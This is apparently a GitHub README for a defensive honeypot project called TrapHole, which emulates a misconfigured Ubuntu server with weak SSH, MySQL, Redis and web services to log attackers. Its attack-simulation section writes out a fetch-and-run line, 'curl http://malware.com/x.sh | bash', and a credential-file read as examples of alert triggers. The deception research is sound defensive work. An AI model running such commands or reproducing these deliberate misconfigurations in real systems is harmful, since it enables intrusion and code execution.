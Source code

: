 <img src="https://emoji.discord.st/emojis/trapped.svg" width="30"> **TrapHole**  (Prototype)
**Next-Gen Deception Environment for Threat Intelligence**

**v1.0 | PROOT | MULTI-VECTOR TRAPS | THREAT INTEL API**

---

### 🔍 TL;DR

**TrapHole** is a high-interaction honeypot that emulates a compromised Ubuntu server inside a Proot container, featuring:

- **11+ vulnerable services** (SSH, MySQL, Redis, etc.) with realistic misconfigurations.  
- **Behavioral fingerprinting** of attackers (TTPs, tooling, motives).  
- **Auto-trapping** for malware drops, C2 callbacks, and lateral movement.  
- **Threat intel** (AbuseIPDB, GreyNoise, VirusTotal) + Slack/Email alerts.  

```bash
# Deploy in 3 commands
git clone https://github.com/yourusername/traphole.git && cd traphole  
sudo ./setup.sh  # Creates ~/traphole_env  
python3 traps/traphole_monitor.py --dashboard --geoip  
```

---

### 🕵️ Why TrapHole?

| Feature         | TrapHole           | Cowrie         | Dionaea         |
|------------------|--------------------|----------------|-----------------|
| **Realistic OS** | ✅ Ubuntu Proot    | ❌ Minimal shell | ❌ Service-only |
| **Multi-Vector** | ✅ 11+ services    | ❌ SSH-only     | ✅ Limited       |
| **Threat Intel** | ✅ API Integration | ❌ Manual       | ❌ None          |
| **Deception**    | ✅ Fake creds/files | ❌ Basic        | ❌ None          |

---

### 🧠 Architecture

```mermaid
graph TD  
    A[Attacker] --> B[TrapHole Proot Env]  
    B --> C{{Vulnerable Services}}  
    C --> D[SSH/MySQL/Redis Traps]  
    C --> E[Fake Documents/DBs]  
    B --> F[Monitor & Log]  
    F --> G[Threat Intel APIs]  
    F --> H[Real-Time Dashboard]  
    F --> I[Slack/Email Alerts]  
```

---

### 🛠️ Core Components

#### 1. **Traps**

- **SSH**: Weak ciphers (aes128-cbc), fake authorized_keys, bash history injection.  
- **MySQL**: root:root creds, exposed `LOAD_FILE()`.  
- **Web**: PHP shells, vulnerable wp-admin, fake `.env` files.  
- **Redis**: Unauthenticated, FLUSHALL allowed.  

#### 2. **Monitoring**

- `traphole_monitor.py`:  
    - Logs attacker commands, file changes, and network calls.  
    - Calculates **threat scores** (0-100) based on behavior.  
    - Enriches IPs with ASN/GeoIP/TOR data.  

#### 3. **Threat Intel**

```python
# Example: Auto-report attackers to AbuseIPDB  
if threat_score > 70:  
    submit_to_abuseipdb(ip, "TrapHole Honeypot Hit")  
```

---

### 💀 Attack Simulation

```bash
# Attacker's view (example)  
ssh -oCiphers=aes128-cbc admin@traphole  
Password: admin123  # Fake creds trigger logging  

# Inside the honeypot:  
cat /fake/credentials.txt  # Triggers file access alert  
curl http://malware.com/x.sh | bash  # Triggers malware download alert  
```

---

### 📊 Dashboard

**Key metrics**: Attack heatmap, top TTPs, threat scores over time.  

```bash
# Start dashboard (port 8080)  
python3 traps/traphole_monitor.py --dashboard  
```

---

### ⚡ Pro Tips

- **Cloud Deployment**:  
```bash
# DigitalOcean + Public IP = More Attackers  
apt-get install tmux && tmux new -s traphole  
./setup.sh --public  
```

- **Log Export**: Pipe logs to ELK or Splunk for analysis.  
- **Custom Traps**: Add new traps in `~/traphole_env/traps/custom/`.  

---

### ☠️ Disclaimer

**WARNING**: TrapHole contains real vulnerabilities. Isolate it from production networks.  
By using this tool, you agree that the authors are not responsible for any misuse.

---

### 📜 License

**GPL-3.0** - Share your trap improvements!

---

### 🚀 Contribute

- Add new services to `setup.sh`.  
- Improve the dashboard with D3.js.  
- Submit attack patterns to `traps/patterns.json`.  

---

#### *<p align="center"> Coded by <a href="https://github.com/yourusername">LIONMAD</a> </p>*
